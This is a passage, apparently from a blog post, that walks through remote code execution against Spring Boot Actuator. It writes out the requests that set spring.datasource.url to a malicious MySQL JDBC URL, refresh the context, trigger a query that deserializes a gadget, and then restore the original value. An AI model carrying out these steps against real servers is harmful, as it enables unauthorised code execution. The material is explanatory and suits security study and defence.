 Content-Type: application/json

{ "name" : "spring.datasource.url" , "value" : "corresponding property value" }

 |

[](https://www.blogger.com/#)**Step 4:** Refresh the configuration

**spring 1.x\
**

```
POST  /refreshContent-Type: application/x-www-form-urlencoded
```

**spring 2.x**

```
POST /actuator/refreshContent-Type: application/json
```

[](https://www.blogger.com/#)**Step 5:** Trigger database query

- Try to access the known database query interface of the website, such as: /product/list, or find other ways to actively trigger the source website to perform database query, and then the vulnerability will be triggered

[](https://www.blogger.com/#)**Step 6: **restore normal jdbc url

- After the deserialization exploit is complete, use the method in step three to restore the original value spring.datasource.urlrecorded in step onevalue

[](https://www.blogger.com/#)

#### Vulnerability principle:

- The spring.datasource.url property is set to the external malicious MySQL JDBC URL address

- refresh sets a new spring.datasource.url property value after refresh

- When the website performs database queries and other operations, it will try to establish a new database connection using the malicious mysql jdbc url

- The malicious MySQL server will then return the deserialized payload data at the appropriate stage of establishing the connection

- The target-dependent MySQL-connector-java will deserialize the set gadget, resulting in an RCE vulnerability

#### Vulnerability Analysis:

[](https://www.blogger.com/#)

- [New-Exploit-Technique-In-Java-Deserialization-Attack](<https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf>)

[](https://www.blogger.com/#)Vulnerable environment:

- You need to configure the spring.datasource.url, spring. datasource.username, spring.datasource.password in application.properties to ensure that you can connect to the MySQL database normally, otherwise, the program will report an error and exit when it starts.
